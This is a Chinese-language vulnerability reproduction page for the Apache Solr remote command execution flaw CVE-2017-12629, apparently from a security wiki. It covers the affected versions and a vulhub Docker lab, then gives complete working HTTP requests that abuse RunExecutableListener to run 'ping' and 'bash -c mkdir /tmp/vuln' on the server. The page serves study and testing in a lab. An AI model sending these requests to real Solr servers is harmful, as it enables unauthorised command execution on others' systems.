 ```yaml
---
title:  Apache Solr RCE 远程命令执行漏洞 CVE-2017-12629
---
```


# Apache Solr RCE 远程命令执行漏洞 CVE-2017-12629

## 漏洞描述
Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

## 影响版本
<a-checkbox checked>Apache Solr < 7.1</a-checkbox></br>

## 环境搭建
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629
docker-compose build
docker-compose up -d
```

## 漏洞复现
先请求url地址获取 core 内容
```shell
/solr/admin/cores
```
通过查看代码，能够触发命令执行的事件有两个：`postCommit` 和`newSearcher`

![ec27d0b9-f86d-43b7-9fe4-1bba02cbf334](/assets/PeiQi-Wiki/img/ec27d0b9-f86d-43b7-9fe4-1bba02cbf334.png)



第一个请求包用于载入缓存中

```
exe : ping  执行的命令
dir: 命令存在的目录位置
args:命令参数
```

如下请求包执行的是 /bin/ping 1.1.1.1

```shell
POST /solr/demo/config HTTP/1.1
Host:
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener-1",
    "class":"solr.RunExecutableListener",
    "exe":"ping",
    "dir":"/bin/",
    "args":["1.1.1.1"]
  }
}
```

![image-20220307151501330](/assets/PeiQi-Wiki/img/image-20220307151501330.png)

第二个请求包用于更新缓存并执行命令

```shell
POST /solr/demo/update

[{"id":"test"}]
```
进入docker容器查看发现命令已经执行

![53ffedcf-5cc3-42cf-9623-a076ed001ac8](/assets/PeiQi-Wiki/img/53ffedcf-5cc3-42cf-9623-a076ed001ac8.png)

使用 newSearcher可以直接加载入缓存执行命令

```shell
POST /solr/demo/config HTTP/1.1
Host:
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"newSearcher",
    "name":"newlistener-2",
    "class":"solr.RunExecutableListener",
    "exe":"bash",
    "dir":"/bin/",
    "args":[
         "-c",
         "mkdir /tmp/vuln",
    ]
  }
}
```

成功执行了创建文件的命令

![567692f5-4845-439f-b747-020011068da8](/assets/PeiQi-Wiki/img/567692f5-4845-439f-b747-020011068da8.png)

如果想要执行其他命令,则需要命令的的位置，例如执行ping，则需要设置dir参数为 /usr/bin/ping 或者 /bin/ping，如果需要检测漏洞是否存在则可以使用 dnslog来检测

